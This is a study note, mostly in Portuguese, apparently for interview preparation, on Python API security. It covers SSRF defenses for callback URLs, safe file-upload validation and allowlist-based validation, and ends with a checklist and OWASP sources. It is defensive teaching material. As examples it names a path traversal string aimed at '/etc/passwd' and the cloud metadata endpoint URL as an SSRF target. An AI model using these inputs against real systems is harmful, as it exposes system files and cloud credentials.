- **"Como você preveniria SSRF num endpoint que aceita URL de callback do cliente?"** `HttpUrl` do Pydantic para forma; depois, antes de qualquer requisição sair do servidor, resolver o host via `socket.getaddrinfo()` e checar o(s) IP(s) contra faixas reservadas/privadas (RFC 1918, link-local `169.254.0.0/16` que inclui o endpoint de metadados cloud, loopback); desligar `follow_redirects` ou revalidar a cada redirect, porque o destino final pode diferir do destino inicial aprovado.
- **"Como validar upload de arquivo com segurança?"** Nunca confiar em extensão do nome ou `Content-Type` declarado — os dois são controlados pelo cliente. Verificar magic bytes (assinatura binária real) contra uma allowlist de formatos permitidos, aplicar limite de tamanho antes de ler o conteúdo inteiro na memória, e salvar com um nome gerado pelo servidor (UUID, hash), nunca com o nome original — que pode conter path traversal.
- **"Allowlist ou denylist para validação de segurança?"** Allowlist sempre que o universo de valores legítimos for enumerável — ela é segura por construção contra qualquer técnica de ataque, conhecida ou não, porque só permite o que está explicitamente listado. Denylist exige prever cada variação de ataque possível, uma corrida que o defensor estruturalmente perde contra um atacante que só precisa de uma variação esquecida.

> [!question]- O entrevistador insiste: "mas então validação de tipo não serve pra nada em termos de segurança?"
> Serve, e vale corrigir essa leitura extrema antes que ela pareça a conclusão da resposta anterior. Validação de tipo fecha uma classe real de vulnerabilidade — payload malformado, tipo errado propagando erro imprevisível, ausência de `max_length` como vetor de DoS por payload gigante. O ponto não é "Pydantic é inútil para segurança"; é "Pydantic é uma camada de segurança **necessária mas não suficiente**" — ela precisa ser complementada por validação de conteúdo (allowlist, sanitização, bind parameters) e, quando o campo é usado para uma requisição de saída do próprio servidor, por validação de destino. As três camadas resolvem problemas diferentes; nenhuma substitui as outras duas.

## How to explain in English

> Pydantic's `BaseModel` validates that a field is well-formed — the right type, the right shape, within declared constraints. It does not validate that the *content* inside a syntactically valid string is safe, and it does not validate that a syntactically valid URL points somewhere safe. A `str` field will happily accept a SQL injection payload, an SSTI payload, or a path traversal sequence like `../../etc/passwd` — all are perfectly valid strings. And `HttpUrl` validates URL format, not destination: it accepts `http://169.254.169.254/latest/meta-data/` — the cloud instance metadata endpoint — exactly as readily as it accepts a legitimate partner API, because nothing in "well-formed URL" distinguishes a safe destination from an internal one. The fix for SSRF is a separate layer: resolve the host, check the resolved IP against private/reserved ranges, and revalidate on every redirect — never assume "the type checked out" means "the destination is safe." The same layering shows up in file upload: never trust a client-declared filename extension or `Content-Type` — check the actual magic bytes of the content, enforce a size limit before reading the whole payload into memory, and always save with a server-generated name, never the client's original filename, which is just as capable of carrying `../` as any other string. The unifying principle across all of this is allowlist over denylist: enumerating what's permitted is secure by construction against attack variations nobody anticipated yet; enumerating what's forbidden is a race the defender structurally loses.

| PT-BR | English |
|---|---|
| validação de forma vs. de conteúdo vs. de destino | format vs. content vs. destination validation |
| magic bytes | magic bytes |
| nome de arquivo gerado pelo servidor | server-generated filename |
| faixa de IP privada/reservada | private/reserved IP range |
| resolução de DNS | DNS resolution |
| allowlist / denylist | allowlist / denylist (also: permit list / deny list) |
| endpoint de metadados da instância | instance metadata endpoint |
| defesa em profundidade | defense in depth |

## Síntese e checklist

O mecanismo central desta nota, em três camadas, na ordem em que cada uma deveria ser aplicada:

1. **Forma** — `BaseModel`/`Field()` do Pydantic garante tipo correto, constraints declarativas, tamanho dentro de limites. Fecha payload malformado. Não fecha conteúdo malicioso dentro de um tipo válido.
2. **Conteúdo** — bind parameters (SQLi), autoescape/allowlist de tags HTML (XSS), `shell=False` com lista de argumentos (command injection), magic bytes (upload de arquivo) — cada mecanismo específico ao interpretador ou contexto em questão, desenvolvido nas notas 02 e 03 deste galho.
3. **Destino** — quando o campo validado é usado para o próprio servidor fazer uma requisição de saída (webhook, proxy de imagem, integração), resolução de DNS + checagem de IP contra faixas privadas, revalidada a cada redirect. É a camada que fecha SSRF.

Checklist rápido antes de considerar um endpoint que recebe input externo pronto:

- [ ] Todo campo tem `Field()` com constraints de tamanho/formato apropriadas — não só o tipo Python básico?
- [ ] Para campos que alimentam uma query, um template, ou um comando de shell: existe a defesa específica de conteúdo (bind parameter, autoescape, `shell=False`), independente de o campo já ter passado pela validação de tipo?
- [ ] Para campos de URL que o servidor vai requisitar: existe checagem de IP resolvido contra faixas privadas, aplicada antes da requisição e revalidada em cada redirect?
- [ ] Para upload de arquivo: o tipo é verificado por magic bytes (não por extensão de nome ou `Content-Type`), existe limite de tamanho, e o nome salvo no disco é gerado pelo servidor?
- [ ] Onde o universo de valores legítimos é enumerável (colunas, extensões, métodos, faixas de IP), a validação é allowlist — não uma tentativa de listar tudo que é perigoso?

O próximo passo natural do galho é a [[05 - Autenticação e autorização na prática — a ponte com Auth e Identidade|nota 05]], que amarra A01 (Broken Access Control) e A07 (Authentication Failures) à API construída no Galho 10 — depois de fechado, nesta nota, o que a validação de input garante e o que ela deliberadamente não cobre.

## Veja também

- [[01 - OWASP Top 10 aplicado a Python web — o mapa|01 — OWASP Top 10 aplicado a Python web]] — mapa deste galho; SSRF (A10) e o exemplo do `HttpUrl` já foram introduzidos ali, desenvolvidos aqui em profundidade.
- [[02 - Injeção — SQL, template, comando e deserialização insegura|02 — Injeção]] — SQL injection, SSTI, command injection e deserialização insegura; os payloads usados como exemplo de "tipo válido, conteúdo perigoso" nesta nota são desenvolvidos ali.
- [[03 - XSS e CSRF nos frameworks Python|03 — XSS e CSRF nos frameworks Python]] — o payload de XSS usado como exemplo nesta nota, e a defesa de autoescape, desenvolvidos ali.
- [[03-Dominios/Tecnologia/Python/Web e APIs REST/03 - Validação e serialização com Pydantic|Galho 10, nota 03]] — mecânica completa de `BaseModel`, `Field()`, `response_model`; pré-requisito direto desta nota.
- [[05 - Autenticação e autorização na prática — a ponte com Auth e Identidade|05 — Autenticação e autorização na prática]] — próxima nota do galho.
- [[03-Dominios/Tecnologia/Python/Persistência de dados/01 - SQLAlchemy Core — Engine, Connection e expressão SQL|Galho 9, nota 01]] — bind parameters, a defesa estrutural de SQL injection referenciada nesta nota.
- [[index|Segurança (Galho 11)]] — MOC deste galho.

## Fontes

- OWASP Cheat Sheet Series. *Server Side Request Forgery Prevention Cheat Sheet*. cheatsheetseries.owasp.org. https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html (acessado em 2026-07-11) — allowlist de destinos, validação de IP resolvido, revalidação em redirect.
- OWASP Cheat Sheet Series. *File Upload Cheat Sheet*. cheatsheetseries.owasp.org. https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html (acessado em 2026-07-11) — checagem de conteúdo real (magic bytes), nome gerado pelo servidor, limites de tamanho, base do caso prático desta nota.
- OWASP. *Server-Side Request Forgery (SSRF)*. owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/. https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/ (acessado em 2026-07-11) — categoria A10 do Top 10:2021, exemplos de exploração via endpoint de metadados cloud.
- Pydantic. *Networks — HttpUrl*. docs.pydantic.dev/latest/api/networks/. https://docs.pydantic.dev/latest/api/networks/ (acessado em 2026-07-11) — o que `HttpUrl` valida (formato) e não valida (destino/resolução).
- Real Python. *Preventing SQL Injection Attacks With Python*. realpython.com/prevent-python-sql-injection/. https://realpython.com/prevent-python-sql-injection/ (acessado em 2026-07-11) — princípio de allowlist vs. denylist aplicado a identificadores SQL, referenciado nesta nota.
- Amazon Web Services. *Instance metadata and user data — IMDSv2*. docs.aws.amazon.com. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (acessado em 2026-07-11) — o endpoint `169.254.169.254` citado no caso de SSRF, e IMDSv2 como mitigação de infraestrutura complementar.
- Python Software Foundation. *ipaddress — IPv4/IPv6 manipulation library*. docs.python.org/3/library/ipaddress.html. https://docs.python.org/3/library/ipaddress.html (acessado em 2026-07-11) — API usada no exemplo de checagem de faixas de IP privadas.
- [[03-Dominios/Tecnologia/Python/Web e APIs REST/03 - Validação e serialização com Pydantic|Validação e serialização com Pydantic]] — nota do Galho 10, referenciada para o mecanismo base de `BaseModel`.

Consultado em 2026-07-11.
